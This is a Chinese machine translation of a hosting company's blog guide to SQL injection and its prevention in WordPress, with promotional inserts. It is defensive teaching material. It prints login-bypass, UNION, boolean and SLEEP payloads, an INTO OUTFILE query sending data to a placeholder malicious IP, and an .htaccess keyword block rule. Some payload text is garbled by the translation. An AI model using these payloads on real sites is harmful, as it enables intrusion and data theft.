

# SQL 注入:WordPress 用户入门指南

> 原文：<https://kinsta.com/blog/sql-injection/>

SQL(结构化查询语言)是一种允许我们与[数据库](https://kinsta.com/knowledgebase/wordpress-database/)交互的语言。现代 web 应用程序使用数据库来管理数据并向读者显示动态内容。

SQL 注入(SQLi)是一种对 web 应用程序的攻击，它通过恶意的 SQL 语句危害数据库。

由于这是一种常见的攻击，让我们尝试了解更多关于它是什么，它是如何发生的，以及如何保护自己免受攻击。

准备好了吗？让我们开始吧！

## 什么是 SQL 注入？

SQL 注入(SQLi)是对 web 应用程序的一种攻击，攻击者可以在 web 应用程序中插入恶意的 SQL 语句，从而有可能访问数据库中的敏感数据或破坏这些数据。SQL 注入是由杰夫·福瑞斯塔在 1998 年首先发现的。

自从被发现以来的二十年里，SQL 注入一直是 web 开发者设计应用程序时的首要任务。

巴克莱银行在 2012 年估计 [97%的数据泄露源于 SQL 注入攻击](https://www.techworld.com/news/security/barclays-97-percent-of-data-breaches-still-due-sql-injection-3331283/)。SQL 注入甚至在今天也很普遍，web 应用程序中注入攻击的严重性得到了广泛的认可。它是 OWASP 的[十大最关键的 web 应用安全风险](https://www.owasp.oimg/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf)之一。


> Kinsta 把我宠坏了，所以我现在要求每个供应商都提供这样的服务。我们还试图通过我们的 SaaS 工具支持达到这一水平。
> 
> <footer class="wp-block-kinsta-client-quote__footer">
> 
> 
> 
> <cite class="wp-block-kinsta-client-quote__cite">Suganthan Mohanadasan from @Suganthanmn</cite></footer>

[View plans](https://kinsta.com/plans/)

## SQL 注入漏洞是如何工作的？

一个 SQL 注入漏洞使得攻击者能够通过使用恶意的 SQL 语句来完全访问应用程序的数据库。

在本节中，我们将分享一个易受攻击的应用程序的示例。

想象一个典型的 web 应用程序的工作流，它通过用户输入涉及数据库请求。您通过一个表单获取用户输入，比如说一个[登录表单](https://kinsta.com/blog/wordpress-login-url/)。然后，使用用户提交的字段查询数据库，以对用户进行身份验证。对数据库的查询结构如下所示:

```
select * from user_table
where username = 'sdaityari'
and password = 'mypassword'; 
```

为简单起见，我们假设您以明文形式存储密码。然而，给你的密码加盐，然后散列，这是一个好习惯。接下来，如果您从表单中收到了用户名和密码，您可以用 PHP 如下定义查询:

```
// Connect to SQL database
$db_query = "select * from user_table where
username = '".$user."'
AND password = '".$password."';";
// Execute query 
```

如果有人输入值“admin”；–"在用户名字段中，变量 db _ query 生成的 SQL 查询结果如下:

```
select * from user_table where
username = 'admin';--' and password = 'mypassword' 
```

这个查询做什么？

SQL 中的注释以双破折号(–)开头。结果查询只按用户名过滤，不考虑密码。如果没有适当的安全措施来避免这种情况，那么只需使用这个技巧就可以授予您对 web 应用程序的管理访问权。

或者，在本例中也可以使用布尔攻击来获取访问权限。如果攻击者输入“密码”或 1 = 1；–"在密码字段中，结果查询如下:

```
select * from user_table where
username = 'admin' and
password = 'password' or 1=1;--'; 
```

在这种情况下，即使您的密码是错误的，您也可以通过验证进入应用程序。如果您的网页显示数据库查询的结果，攻击者可以使用命令 show tables、命令显示数据库中的表，然后根据需要有选择地删除表。



A cartoon on SQL injection (image source: [XKCD](https://xkcd.com/327/))


XKCD 的热门漫画《一个母亲的冒险》(Exploits of a Mom)展示了一位母亲与儿子所在学校的对话，在那里她被问及是否真的给儿子取名为“罗伯特”)；掉表生；–".


## SQL 注入的类型

现在，您已经了解了 SQL 注入漏洞的基本知识，让我们来探究各种类型的 SQL 注入攻击以及每种攻击背后的原因。

### 带内 SQL 注入

带内 SQL 注入是 SQL 注入最简单的形式。在这个过程中，攻击者能够使用相同的渠道将恶意的 SQL 代码插入到应用程序中，并收集结果。我们将讨论两种形式的带内 SQL 注入攻击:

#### 基于错误的攻击

攻击者在攻击的初始阶段使用基于错误的 SQL 注入技术。基于错误的 SQL 注入背后的想法是获得关于 web 应用程序遵循的数据库结构和表名的进一步信息。例如，错误消息可能包含查询中包含的表名和表的列名。这些数据可用于制造新的攻击。

#### 基于联盟的攻击

在这种方法中，攻击者使用 SQL union join 来显示不同表中的结果。例如，如果攻击者在[搜索页面](https://kinsta.com/blog/wordpress-search/)上，他们可能会附加另一个表的结果。

```
select title, link from post_table
where id < 10
union
select username, password
from user_table; --; 
```

### 推理 SQL 注入(盲目 SQL 注入)

即使攻击者在 SQL 查询中生成错误，查询的响应也可能不会直接传输到网页。在这种情况下，攻击者需要进一步探查。

在这种形式的 SQL 注入中，攻击者向数据库发送各种查询，以评估应用程序如何分析这些响应。推理 SQL 注入有时也被称为**盲 SQL 注入**。我们将在下面看到两种推理 SQL 注入:布尔 SQL 注入和基于时间的 SQL 注入。

#### 布尔攻击

如果 SQL 查询导致应用程序内部尚未处理的错误，则生成的网页可能会抛出错误、加载空白页或部分加载。在布尔 SQL 注入中，攻击者通过在输入中尝试两种不同版本的布尔子句来评估用户输入的哪些部分容易受到 SQL 注入的攻击:

*   “…并且 1=1”
*   “…1 = 2”

如果应用程序在第一种情况下正常工作，但在第二种情况下显示异常，这表明应用程序容易受到 SQL 注入攻击。

#### 基于时间的攻击

基于时间的 SQL 注入攻击还可以帮助攻击者[确定 web 应用程序中是否存在漏洞](https://kinsta.com/knowledgebase/disclose-security-vulnerability/)。攻击者利用应用程序使用的数据库管理系统的预定义的基于时间的功能。例如，MySQL 中的，[函数 sleep()](http://dev.mysql.com/doc/refman/5.0/en/miscellaneous-functions.html#function_sleep) 指示数据库等待一定的秒数。

```
select * from comments
WHERE post_id=1-SLEEP(15); 
```

如果这样的查询导致延迟，攻击者将知道它是易受攻击的。

## 注册订阅时事通讯


### 想知道我们是怎么让流量增长超过 1000%的吗？

加入 20，000 多名获得我们每周时事通讯和内部消息的人的行列吧！

[Subscribe Now](#newsletter)

### 带外 SQL 注入

如果攻击者无法通过相同的渠道收集 SQL 注入的结果。带外 SQL 注入技术可以用作推理 SQL 注入技术的替代。

通常，这些技术包括将数据库中的数据发送到攻击者选择的恶意位置。这个过程也高度依赖于数据库管理系统的能力。

带外 SQL 注入攻击使用 DBMS 的外部文件处理功能。在 MySQL 中，LOAD_FILE()和 INTO OUTFILE 函数可用于请求 MySQL 将数据传输到外部源。以下是攻击者可能如何使用 OUTFILE 将查询结果发送到外部源:

```
select * from post_table
into OUTFILE '\\\\MALICIOUS_IP_ADDRESS\location' 
```

类似地，LOAD_FILE()函数可用于从服务器读取文件并显示其内容。可以使用 LOAD_FILE()和 OUTFILE 的组合来读取服务器上的文件内容，然后将其传输到不同的位置。

## 如何防止 SQL 注入

到目前为止，我们已经研究了 web 应用程序中可能导致 SQL 注入攻击的漏洞。攻击者可以利用 SQL 注入漏洞读取、修改甚至删除数据库的内容。

此外，它还可以让人在服务器内的任何位置读取文件，并将内容传输到其他地方。在本节中，我们将探讨各种技术来保护您的 web 应用程序和网站免受 SQL 注入攻击。

### 转义用户输入

一般来说，判断一个用户字符串是否是恶意的是一件困难的事情。因此，最好的方法是对用户输入中的特殊字符进行转义。

这个过程使你免受 SQL 注入的攻击。在使用`mysql_escape_string() function`在 [PHP](https://kinsta.com/blog/is-php-dead/) 中构建查询之前，您可以转义一个字符串。还可以使用`mysqli_real_escape_string()`函数对 MySQL 中的字符串进行转义。

将输出显示为 HTML 时，您还需要转换字符串，以确保特殊字符不会干扰 HTML 标记。您可以使用函数`htmlspecialchars()`转换 PHP 中的特殊字符。

### 使用准备好的语句

或者，您可以使用准备好的语句来避免 SQL 注入。预准备语句是 SQL 查询的模板，您可以在稍后阶段指定参数来执行它。下面是一个用 PHP 和 MySQLi 编写的语句的例子。

```
$query = $mysql_connection->prepare("select * from user_table where username = ? and password = ?");
$query->execute(array($username, $password));
```

### 防止 SQL 攻击的其他安全检查

减轻该漏洞的下一步是将对数据库的访问限制在必要的范围内。

与宕机和 WordPress 问题做斗争？Kinsta 是一款考虑到性能和安全性的托管解决方案！[查看我们的计划](https://kinsta.com/plans/?in-article-cta)

例如，使用只能访问相关数据库的特定用户将 web 应用程序连接到 DBMS。

限制数据库用户对服务器所有其他位置的访问。您可能还希望通过 web 服务器阻止 URL 中的某些 SQL 关键字。如果您使用 [Apache](https://kinsta.com/blog/nginx-vs-apache/) 作为 web 服务器，您可以在您的[中使用下面几行代码。htaccess 文件](https://kinsta.com/knowledgebase/wordpress-htaccess-file/)向潜在的攻击者显示 403 禁止错误。

在使用这种技术之前应该小心，因为如果 URL 包含这些关键字，Apache 会向读者显示一个错误。

```
RewriteCond %{QUERY_STRING} [^a-z](declare¦char¦set¦cast¦convert¦delete¦drop¦exec¦insert¦meta¦script¦select¦truncate¦update)[^a-z] [NC]
RewriteRule (.*) - [F]
```


### 信息

Kinsta 在 Nginx web 服务器上运行 WordPress，该服务器不支持. htaccess 文件。如果你想设置一个规则来阻止你的 URL 上的关键词，请联系 [Kinsta 支持团队](https://kinsta.com/help/wordpress-support-ticket/)，他们将能够提供帮助。


作为额外的预防提示，您应该始终使用[更新软件](https://kinsta.com/blog/wordpress-hacked/#2-keep-your-site-updated)。当发布新版本或补丁时，更新中修复的错误会在发行说明中详细说明。一旦漏洞的细节公之于众，运行任何软件的旧版本都是有风险的。

## WordPress 中的 SQL 注入

如果你使用最新的 WordPress 核心文件，你就不会受到任何 SQL 注入漏洞的攻击。然而，当你使用[第三方主题](https://kinsta.com/best-wordpress-themes/)和插件时，你的整个应用程序就有风险了。

你的 WordPress 网站的强度取决于它最薄弱的环节。在这一节中，我们将探讨减少 WordPress 中 SQL 注入漏洞的关键考虑因素，以及如何在您现有的 WordPress 站点上执行漏洞检查。

### WordPress 的 SQL 注入漏洞防护

为了减少 SQL 注入在你的 WordPress 主题或插件中的漏洞，你必须遵循的唯一规则是在与数据库交互时总是使用 T2 现有的 WordPress 函数。

在 WordPress 的开发过程中，这些函数都经过了彻底的 SQL 注入漏洞测试。例如，如果你想给一篇文章添加评论，使用函数 [wp_insert_comment()而不是直接将数据插入 wp_comments 表。](https://developer.wordpress.org/reference/functions/wp_insert_comment/)

虽然函数是可扩展的，但您可能偶尔需要运行复杂的查询。在这种情况下，确保使用了函数组[$ WP _ db](https://developer.wordpress.org/reference/classes/wpdb/)。在创建查询之前，可以使用＄wpdb->prepare()来转义用户输入。

此外，这里是 WordPress 中整理数据的函数列表。这些帮助你避开特定类型的用户输入，如电子邮件和网址。

### 保护你的 WordPress 站点

虽然 WordPress 本身是安全的，但是过时的核心软件和被清空的插件会导致漏洞。尽管除了彻底检查你的 WordPress 站点的 SQL 注入漏洞之外别无选择，但是网站的复杂性可能会使这项任务变得具有挑战性。

您可以使用在线扫描工具，如 [ThreatPass](https://db.threatpress.com/) 和 [WPScan](https://wpscan.org/) 漏洞数据库。您可以审核您的插件，看看它们的开发是否停滞了。如果它们被抛弃了一段时间，在你的网站上使用它们可能不是一个好主意。

如果您仍然绝对需要使用它们，请确保您彻底测试了它们的代码和功能是否存在漏洞。除此之外，请确保您遵循以下卫生检查:

*   更新 PHP、WordPress core 和 MySQL
*   更新第三方插件和主题
*   避免使用 root 用户连接 SQL 数据库
*   限制 SQL 用户对敏感目录的访问
*   使用您的服务器阻止 SQL 关键字
*   将您的站点备份保存在异地，以防不可逆转的损坏

这里有一篇关于 WordPress 安全的详细帖子和一份详尽的检查清单。此外，你可能希望投资这些用于 WordPress 的[顶级安全插件。如果尽管你尽了最大努力，你的 WordPress 网站还是被黑了](https://kinsta.com/blog/wordpress-security-plugins/)，你应该这么做[。](https://kinsta.com/blog/wordpress-hacked/)


### 信息

Kinsta 向其所有计划的所有客户提供了一份[恶意软件安全保证书](https://kinsta.com/knowledgebase/malware-security/)。


## SQL 注入违法吗？

肯定的，是的！即使存在实际的漏洞，攻击者仍然试图访问他们在其他情况下无法获得的数据。

想象一下有人把钥匙留在车里的场景。开着它离开，仅仅因为它开着没人看管就构成犯罪吗？《SQLi 法》在不同国家适用不同的法律。它属于美国的[计算机欺诈和滥用法案(1986)，以及英国](https://www.justice.gov/sites/default/files/criminal-ccips/legacy/2015/01/14/ccmanual.pdf)的[计算机滥用法案(1990)。](http://www.legislation.gov.uk/ukpga/1990/18/contents)

[97% of data breaches initiate with SQL injections. If you're running a site, you should know what SQL injections are and how to prevent them from happening. Luckily, there's this guide! 👺🦺Click to Tweet](https://twitter.com/intent/tweet?url=https%3A%2F%2Fkinsta.com%2Fblog%2Fsql-injection%2F&via=kinsta&text=97%25+of+data+breaches+initiate+with+SQL+injections.+If+you%27re+running+a+site%2C+you+should+know+what+SQL+injections+are+and+how+to+prevent+them+from+happening.+Luckily%2C+there%27s+this+guide%21+%F0%9F%91%BA%F0%9F%A6%BA&hashtags=security%2Csql)

## 摘要

SQL 注入漏洞很久以前就被发现了。然而，[2018 年一份关于被黑网站的报告](https://www.webarxsecurity.com/website-hacking-statistics-2018-february/)表明，SQLi 是继 XSS 攻击后 WordPress 最常见的网站黑客。为了防止这种情况发生，您应该:

*   了解 SQL 注入漏洞的工作原理
*   探究攻击者可能使用 SQLi 对您的 web 应用程序进行未经授权的访问的各种方式
*   实现一些方法来保护你的网站免受 SQLi 攻击，比如逃避用户输入和使用准备好的语句
*   遵循安全检查程序

古语有云:“宁为玉碎，不为瓦全！”

* * *

让你所有的[应用程序](https://kinsta.com/application-hosting/)、[数据库](https://kinsta.com/database-hosting/)和 [WordPress 网站](https://kinsta.com/wordpress-hosting/)在线并在一个屋檐下。我们功能丰富的高性能云平台包括:

*   在 MyKinsta 仪表盘中轻松设置和管理
*   24/7 专家支持
*   最好的谷歌云平台硬件和网络，由 Kubernetes 提供最大的可扩展性
*   面向速度和安全性的企业级 Cloudflare 集成
*   全球受众覆盖全球多达 35 个数据中心和 275 多个 pop

在第一个月使用托管的[应用程序或托管](https://kinsta.com/application-hosting/)的[数据库，您可以享受 20 美元的优惠，亲自测试一下。探索我们的](https://kinsta.com/database-hosting/)[计划](https://kinsta.com/plans/)或[与销售人员交谈](https://kinsta.com/contact-us/)以找到最适合您的方式。